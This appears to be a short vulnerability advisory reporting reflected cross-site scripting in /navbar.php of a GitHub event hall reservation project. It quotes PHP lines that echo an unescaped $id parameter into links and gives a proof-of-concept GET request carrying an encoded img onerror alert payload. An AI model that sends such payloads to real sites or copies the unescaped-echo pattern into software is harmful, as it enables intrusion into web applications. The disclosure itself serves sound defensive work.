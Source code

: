 # MAGESH-K21 / Online-College-Event-Hall-Reservation-System - Reflected XSS navbar.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://github.com/MAGESH-K21/Online-College-Event-Hall-Reservation-System/
> 
## Affected Component
> /navbar.php

## Code
```php
 <li><a class="nav-link scrollto" href="index.php?id=<?php echo $id; ?>">Home</a></li>
                    <li><a class="nav-link scrollto" href="rooms.php?id=<?php echo $id; ?>">Rooms</a></li>
                    <li><a class="nav-link scrollto" href="users.php?id=<?php echo $id; ?>">Users</a></li>
```

## Proof of Concept
**HTTP Request Example**
``` http request
GET /admin/navbar.php?id=%22%3E%3Cimg%20src=x%20onerror=alert(%22NoChizPlz%22)%3E HTTP/1.1
Host: [REDACTED]
```

## Screenshot
